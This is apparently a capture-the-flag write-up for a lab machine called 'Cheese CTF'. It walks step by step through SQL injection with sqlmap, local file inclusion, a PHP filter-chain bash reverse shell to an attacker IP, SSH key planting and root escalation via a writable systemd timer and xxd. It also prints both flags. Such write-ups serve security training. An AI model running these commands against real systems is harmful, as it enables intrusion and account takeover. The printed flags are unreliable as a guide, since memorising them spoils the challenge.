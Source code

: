 # Cheese CTF

## Challenge Information
- **Challenge Name**: Cheese CTF
- **Category**: Web Security & Privilege Escalation
- **Difficulty Level**: Easy

## Analysis

As a traditional pentesing method, I first tried with directory enumeration where I found nothing. Simultaneously, I ran nmap looking for any open ports which gave more than 100+ ports. Hence, there was no clue in both of these tests. So now i decided to move towards sqli, since there was a login page and we had to find the user flag first, it means that we had to login as a user. Anyhow, lets try sqli now.

Moving forward towards the SQLi, I ran the command: `sqlmap -u "http://<IP_ADDRESS>/login.php" --data="username=test&password=test" --batch --dump`
Command Breakdown:
-> `sqlmap` : The tool being used, which automates the process of detecting and exploiting SQL injection vulnerabilities.
-> `-u "http://<IP_ADDRESS>/login.php"` : Specifies the target URL where the SQL injection will be tested.
-> `--data="username=test&password=test"` : Specifies the POST data being sent to the server. This simulates a login attempt with the username set to test and password set to test.
-> `--batch` : Runs the command in non-interactive mode. It automatically answers any prompts that sqlmap might generate, using the default or safest options. This is useful for automation or unattended testing.
-> `--dump` : Instructs sqlmap to dump the database contents if it successfully exploits the SQL injection vulnerability. This means it will retrieve and display the data stored in the database.

The detailed analysis on running this command is as follows:
SQLMap tested the username parameter and detected that it is vulnerable to time-based blind SQL injection. The backend database management system (DBMS) was identified as MySQL (MariaDB fork). The current database was retrieved (users). SQLMap found one table named users in the users database. Columns in the users table were identified as `id`, `username`, `password`. The single entry in the users table was retrieved as `ID: 1, Username: comte, Password Hash: 5b0c2e1b4fe1410e47f26feff7f4fc4c`. SQLMap recognized the password hash as MD5. It used its default dictionary for a dictionary-based attack but failed to crack the hash.
Moreover, it also gave a 302 redirect to `http://<IP_ADDRESS>/secret-script.php?file=supersecretadminpanel.html`. The link suggests that it is loading a file from a directory without any check which might result in LFI. So lets test it with the url `http://<IP_ADDRESS>/secret-script.php?file=/etc/passwd`. This showed some content on the webpage. It means that we can exploit it through LFI. In the content that we got from `/etc/passwd`, there is something `comte:x:1000:1000:comte:/home/comte:/bin/bash`, which seggests that this account has a shell (/bin/bash) and may be your entry point to gain local access.

Now our next task is to upload a reverse shell on the server using the LFI. I tried uploading the shell by running a local server on my machine with a local port, but it did not worked. It means that there are some filters that are preventing me to upload any php shell. To bypass this, we have to use a script that generates different filter chains for the different payloads. I downloaded a script from github `https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py` that generates multiple chains while uploading the shell code. Make sure that you are running your port on netcat `nc -lvnp YOUR_PORT`. Now run the command `python3 php-reverse-shell.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_VPN_IP>/<YOUR_PORT> 0>&1'\"); ?>" | grep "^php" > payload.txt`. It will generate a lot of useful payloads. Now run the command `curl "http://<IP_ADDRESS>/secret-script.php?file=$(cat payload.txt)"`. This will give you a reverse shell in the directory `/var/www/html` on the terminal where you are running the netcat.

1. To get the user's flag, we have to search in his directory `/home/comte` that we also discovered previously. We have a `user.txt` in `/home/comte` but it says permission denied if we try to read it using cat command. So we need previlage escaltion now. For this, download `linpeas.sh` using the command `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`. Now run a python server `python3 -m http.server 8000 --bind <YOUR_VPN_IP>`. Now run `wget http://<YOUR_VPN_IP>:8000/linpeas.sh` in the target machine, but before running this, move to `cd /tmp` so that we are able to write in the target machine and also make sure that linpeas.sh is in the same directory where you are running the python server so that it gets copied to the target machine. Once the linpeas.sh is downloaded in the target machine, run `chmod +x linpeas.sh` to grant permissions to the file. Now execute it `./linpeas.sh`. The execution of this gave a long response, but it is very important for us to analyze its response. Deeply go through the response and you will observe some lines:
```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                     
/dev/mqueue                                                                                                                                                           
/dev/shm
/etc/systemd/system/exploit.timer
/home/comte/.ssh/authorized_keys
/run/lock
/run/lock/apache2
/run/screen
/snap/core20/2015/run/lock
/snap/core20/2015/tmp
/snap/core20/2015/var/tmp
/snap/core20/2182/run/lock
/snap/core20/2182/tmp
/snap/core20/2182/var/tmp
/tmp
/tmp/linpeas.sh
/tmp/tmux-33
/var/cache/apache2/mod_cache_disk
/var/crash
/var/lib/php/sessions
/var/tmp
```
`/home/comte/.ssh/authorized_keys` suggests that there are some authorized ssh keys that allow to login as comte. So we will also add our own ssh key so that we can also login as comte. In your local machine, login as root `sudo su` and generate a ssh key `ssh-keygen -t rsa`. The key will be saved in the path `/root/.ssh/id_rsa.pub`. Copy the key `cat /root/.ssh/id_rsa.pub` using this and write it in the target machine: `echo "key" > /home/comte/.ssh/authorized_keys`. Now we will be loggin in as comte in our own local machine `ssh -i /root/.ssh/id_rsa comte@<IP_ADDRESS>`. Now `cat /home/comte/user.txt` will give us the flag `THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`.

2. The root.txt file is present in the path `/root/root.txt`, but we do not have permission to read it. Remember the file for which we had write permissions (mentioned above) `/etc/systemd/system/exploit.timer`. We can use it to run an exploit service. Move to the directory `cd /etc/systemd/system/` where we logged in as comte. Check the file contents `cat /etc/systemd/system/exploit.timer` and it will give some contents like this:
```
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```
Modify the line `OnBootSec=5s` using the command `nano exploit.timer`. Now run the following commands in the local terminal where we logged in as comte: `sudo systemctl daemon-reload`, `sudo systemctl start exploit.timer`, `systemctl status exploit.timer`. This will run and also confirm whether the run was successful or not. We will be again using the same ssh key to get the previlage of the root as well. Look for any method to gain sudo privileges in `https://gtfobins.github.io/`. Here we came to know that we can use `xxd` for the exploitation. Navigate to the directory `/opt` because the exploit scenario assumes we have write permissions there. Run the command `echo "key" | xxd | /opt/xxd -r - "/root/.ssh/authorized_keys"`. Now open another terminal in your local machine with `sudo su` and run the command `ssh -i /root/.ssh/id_rsa root@<IP_ADDRESS>`. This will login you as a root into Cheeze! Now just `cat /root/root.txt` and it will give the flag `THM{dca75486094810807faf4b7b0a929b11e5e0167c}`.
